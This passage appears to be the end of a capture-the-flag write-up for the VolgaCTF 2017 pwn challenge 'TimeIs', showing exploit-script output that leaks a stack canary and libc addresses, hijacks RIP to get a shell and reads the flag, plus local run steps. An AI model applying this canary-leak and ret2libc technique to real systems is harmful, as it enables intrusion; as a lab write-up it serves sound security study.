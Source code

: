 **6. Profit**<br>
```
 jofra@localhost::R_CTF2017/VolgaCTF/pwn/TimeIs:
 >>> $ ./go_timeis.py
(...)
(... Uninteresting stuff due to the challenge we have to pass before accessing the binary ...)
(...)

**************************
*** LEAKING THE CANARY ***
**************************
------------------------------------
|     CANARY IS: 0xf438db7f57255b00|
| stack_addr IS: 0x7fffcf79ad50    | (unused)
|buffer_addr IS: 0x7fffcf79a430    | (unused)
------------------------------------

*************************
*** LEAKING LIBC BASE ***
*************************
-------------------------------------
|    setvbuf_libc is: 0x7f40bdc53e70|
|       time_libc is: 0x7fffcf7e0ea0| (wrong but irrelevant)
|     gmtime_libc is: 0x7f40bdc9ed60|
|       free_libc is: 0x7f40bdc67940|
|       LIBC BASE is: 0x7f40bdbe4000|
|     SYSTEM ADDR is: 0x7f40bdc29390|
| BIN_SH_STR ADDR is: 0x7f40bdd70177|
-------------------------------------

***********************
*** CONTROLLING RIP ***
***********************
$ ls
flag.txt
time_is
$ cat flag.txt
VolgaCTF{D0nt_u$e_printf_dont_use_C_dont_pr0gr@m}
$
```

## How to try it locally
 1. Run the `local_time_is.sh` in one shell.
 2. Set `TESTING_LOCAL = true` in the file `go_timeis.py`
 3. Run `./go_timeis.py`

## Extra note
We have to pass an initial challenge in order to run the actual binary. This is just the way the organizers limited the amount of times you can run the program on the server. Because of this the exploit might take seconds to minutes to actually start running, since the challenge is often not solvable.<br>
The challenge is not important for the exploit, but here it is: `Solve a puzzle: find an x such that 26 last bits of SHA1(x) are set, len(x)==29 and x[:24]=='<something>'`<br>
Only needed remotely!
